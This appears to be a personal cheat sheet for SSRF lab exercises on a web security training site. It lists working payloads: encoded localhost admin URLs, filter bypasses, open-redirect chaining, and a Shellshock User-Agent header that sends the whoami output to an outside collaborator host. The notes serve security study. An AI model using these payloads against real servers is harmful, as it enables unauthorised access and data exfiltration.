 # SSRF
most entry points of the labs are in stockApi
**Basic SSRF against the local server**
1. notify stockApi
```
%68%74%74%70%3a%2f%2f%6c%6f%63%61%6c%68%6f%73%74%2f%61%64%6d%69%6e
http://localhost/admin/delete?username=carlos
```
---
**Basic SSRF against another back-end system**
1. notify stockApi
2. bruteforce to finding internal IP (e.g. http://192.168.0.$NUM$/admin)
---
**Blind SSRF with out-of-band detection**
1. notify stockApi
2. send to burp collab
---
**SSRF with blacklist-based input filter**
1. notify stockApi => External stock check blocked for security reasons
`stockApi=http://127.1/%2561dmin` `stockApi=http://127.1/%2561dmin/delete?username=carlos`

---
**SSRF with filter bypass via open redirection vulnerability**
1. notify stockApi
2. notify nextProduct
`tockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`

---
**Blind SSRF with Shellshock exploitation** !EX

    exfiltrate name of OS user
```https
GET /product?productId=1 HTTP/2
Host: 0a23005c04fb1c608040cb25004e002f.web-security-academy.net
Cookie: session=QxqVoH4LXs4tuJt5m0yC2l3OxRhOEcFo
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).dwdsbrqfyuf1k83pi3ohtkq2ltrlfb30.oastify.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: th,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.0.§1§:8080
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
```http
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
Referer: http://192.168.0.§1§:8080
```
---
**SSRF with whitelist-based input filter** !EX
